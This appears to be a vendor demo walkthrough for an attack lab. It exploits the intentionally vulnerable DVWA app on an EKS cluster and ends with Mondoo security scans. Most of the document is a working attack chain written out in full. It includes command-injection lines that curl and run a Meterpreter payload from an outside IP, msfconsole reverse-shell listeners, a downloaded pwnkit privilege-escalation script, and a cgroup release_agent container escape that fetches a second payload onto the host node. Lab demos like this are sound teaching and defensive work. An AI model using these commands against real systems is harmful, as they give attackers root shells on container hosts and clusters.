


# Hacking write-up

The following document provides an overview on how to run the DVWA container escape demo in using an EKS cluster provisioned by Terraform.

## Provision the Cluster

Follow the instructions in the [README](README.md) in this directory. Once Terraform finishes the provisioning process, the output will include dynamically generated commands to be used for your demo along with the the public IP address to the Kali Linux instance that will be used for the demo:


```bash
################################################################################
# USE THIS FOR THE COMMAND INJECTION:
################################################################################

;curl -vk http://3.142.53.159:8001/met-container -o /tmp/met

;chmod 777 /tmp/met

;/tmp/met

  

EOT

escape_container_script = <<EOT

################################################################################
# USE THIS TO ESCAPE CONTAINER ONTO THE HOST
################################################################################

mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://3.142.53.159:8001/met-host -o /run/met" >> /cmd
echo "chmod 777 /run/met" >> /cmd
echo "/run/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"


EOT

kali_linux_public_ip = <<EOT

################################################################################
# KALI LINUX SSH:
################################################################################
  
ssh -i ~/.ssh/aws_rsa kali@3.142.53.159


EOT
```

## Configure KUBECONFIG and validate the cluster

Terraform will create an `eks-demo-config` (ignored by Git) in the `terraform/aws` directory. This file contains a KUBECONFIG for the provisioned cluster. Open a Terminal and `cd` into `demos/container-escape/terraform/aws` and then set the `KUBECONFIG` environment variable to point to the `eks-demo-config`.

```bash
cd demos/container-escape/terraform/aws
export KUBECONFIG=eks-demo-config
```

Validate the cluster.

```bash
kubectl get nodes

kubectl get pods

kubectl get pods --namespace mondoo-operator
```

## Setup DVWA instance

DVWA is the "Damn Vulnerable Web Application" that will be used to demonstrate how a vulnerability in a container can lead to access to the host and to the cluster. The application is automatically deployed to the EKS cluster using Terraform, but port forwarding must be setup to gain access to it.

### Configure Port Forwarding

Using the Terminal from the previous step, get the name of the DVWA pod using `kubectl`:

```bash
kubectl get pods

NAME                                     READY   STATUS    RESTARTS   AGE
dvwa-container-escape-85c776c9bd-jmzqc   1/1     Running   0          101m
```
Open a terminal and run the following command to start port forward to the DVWA pod on `8080`:

```bash
kubectl port-forward dvwa-container-escape-85c776c9bd-jmzqc 8080:80 
```

### Login to DVWA



Open a browser and navigate to http://localhost:8080.

Log in to DVWA using `admin` with the password `password`.



Once logged in, click on "Create / Reset Database" after which, you will be logged out. Log back in to the web application and click on "Command Injection."

- please replace the variable `kali_linux_public_ip` in the following commands
- create the reverse meterpreter shell for the container

## Setup Kali Linux Instance

The Kali Linux instance has all of the binaries and scripts you will need to hack the EKS deployment. Once you have ssh'd on to the host you will find a `container-escape` directory with the following files:

```bash
┌──(kali㉿kali)-[~]
└─$ ll container-escape
total 1100
-rwxr-xr-x 1 kali kali 1106792 Apr 20 05:18 met-container
-rwxr-xr-x 1 kali kali     207 Apr 20 05:18 met-host
-rwxr-xr-x 1 kali kali     129 Apr 20 05:18 msfconsole1
-rwxr-xr-x 1 kali kali     123 Apr 20 05:18 msfconsole2
-rwxr-xr-x 1 kali kali      27 Apr 20 05:18 start_ruby_webserver
```

### Start the container listener

In the first terminal, start `msfconsole` listening on port `4242` for the container:

```bash
┌──(kali㉿kali)-[~]
└─$ cd container-escape

┌──(kali㉿kali)-[~/container-escape]
└─$ ./msfconsole1
[*] Using configured payload generic/shell_reverse_tcp
payload => linux/x86/meterpreter_reverse_tcp
lhost => 0.0.0.0
lport => 4242
[*] Started reverse TCP handler on 0.0.0.0:4242
```

### Start the host listener

In the second terminal, start `msfconsole` listening on port `4243` for the host:

```bash
┌──(kali㉿kali)-[~]
└─$ cd container-escape

┌──(kali㉿kali)-[~/container-escape]
└─$ ./msfconsole2
[*] Using configured payload generic/shell_reverse_tcp
payload => linux/x86/shell/reverse_tcp
lhost => 0.0.0.0
lport => 4243
[*] Started reverse TCP handler on 0.0.0.0:4243
```

### Start Ruby webserver

In the third terminal, start webserver with Ruby:

```bash
┌──(kali㉿kali)-[~]
└─$ cd container-escape

┌──(kali㉿kali)-[~/container-escape]
└─$ ./start_ruby_webserver
[2022-04-20 05:20:15] INFO  WEBrick 1.6.1
[2022-04-20 05:20:15] INFO  ruby 2.7.4 (2021-07-07) [x86_64-linux-gnu]
[2022-04-20 05:20:15] INFO  WEBrick::HTTPServer#start: pid=1111 port=8001
```

## Escape time

In the webapp (browser) do the first attack to gain access to the container. 

```bash
;curl -vk http://<kali_linux_public_ip>:8001/met-container -o /tmp/met
```

Change the permissions to make the script executable

```bash
;chmod 777 /tmp/met
```

Execute the script

```bash
;/tmp/met
```

Now you have a reverse meterpreter session from the container, to get a shell type `shell`

```bash
meterpreter > shell
Process 321 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

You have a shell and are the `www-data` user.

### Escalate Privileges on the container

Now you need do the privilege escalation within the container to gain root. In the terminal where the container listener and run the following commands:

```bash
cd /tmp
```

Download the `priv-es` script to `/tmp`
```bash
curl -vkO https://pwnkit.s3.amazonaws.com/priv-es
```

Make the script executable:
```bash
chmod a+x ./priv-es
```

Execute the script
```bash
./priv-es
```

Show that you are now root on the container

```bash
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

### Gain access to worker nodes

Now that you are root you can execute the following command to mount `cgrp` 

```bash
mkdir -p /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir -p /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://18.116.89.196:8001/met-host -o /run/met" >> /cmd
echo "chmod 777 /run/met" >> /cmd
echo "/run/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Now you got the reverse shell from the kubernetes node, to verify it, show your are root and compare the ip addresses with kubectl

```bash
id
hostname
ip-10-0-6-130.us-east-2.compute.internal
```

```bash
kubectl get nodes
NAME                                       STATUS   ROLES    AGE    VERSION
ip-10-0-4-55.us-east-2.compute.internal    Ready    <none>   118m   v1.21.5-eks-9017834
ip-10-0-6-130.us-east-2.compute.internal   Ready    <none>   117m   v1.21.5-eks-9017834
```

## scan kubernetes manifest

```bash
mondoo scan -t k8s --path dvwa-eks-deployment.yaml --no-pager
```

## scan container image

```bash
mondoo scan -t docker://public.ecr.aws/x6s5a8t7/dvwa:latest
```

## scan kubernetes eks cluster

```bash
mondoo scan -t k8s
```

## shell to kubernetes eks cluster

- ask if container is tag or digest

```bash
k8s.pods { _.containers { image containerImage { identifierType == "digest" } } }

k8s.pods { containers { name securityContext } }
```

# scan/shell kubernetes node via SSM

- replace variable `<AWS Instance ID>`

```bash
export AWS_REGION=us-east-2

mondoo scan -t aws-ec2-ssm://ssm-user@<AWS Instance ID>

mondoo shell -t aws-ec2-ssm://ssm-user@<AWS Instance ID>
```

# scan/shell kubernetes via aws api

```bash
export AWS_REGION=us-east-2

mondoo shell -t aws

aws.eks.clusters { * }

aws.eks.clusters { logging["ClusterLogging"].where( _["Enabled"] == true ) }
```